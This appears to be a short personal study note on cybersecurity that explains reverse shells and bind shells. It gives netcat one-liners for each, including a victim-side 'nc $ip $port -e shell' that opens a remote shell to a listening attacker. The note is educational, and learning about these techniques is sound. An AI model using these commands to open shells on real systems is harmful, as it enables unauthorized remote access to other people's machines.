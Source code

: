 ## Reverse shell & Bind shell
[Back to Cyber security page](index.md)
- --
## Reverse shell
In reverse shell , attacker listens on port and victim connects to it with execution shell. It is preffered as it can be tunneled to avoid firewall.
``` bash
attacker > nc -lvnp $port 
 
victim > nc $ip $port -e shell
```
- --
## Bind Shell
In Bind shell , attacker connects to victims open port on which it is listening. Although this is easiest form of shell connection , it is protected by firewall so its not the prefered one.

Example : 
``` bash
attacker > nc $ip $port

victim > nc -lvnp $port -e shell
```
- --
![difference|700](https://2.bp.blogspot.com/-ki2E1zoOUqE/Wu2h9kCjsSI/AAAAAAAAB9I/gykQPAMpT5M0NU9YtHAQllyvyJyIzHVIACLcBGAs/s1600/Bind%2Bshell%2Band%2Breverse%2Bshell.png)
- --
### Source 
- [Youtube video Hindi](https://youtu.be/BQfryZGl6nQ)
- [Youtube video hindi](https://youtu.be/PMd4mmRuua0)
- [HackerSploit video](https://youtu.be/1kHXf51Sqpk)
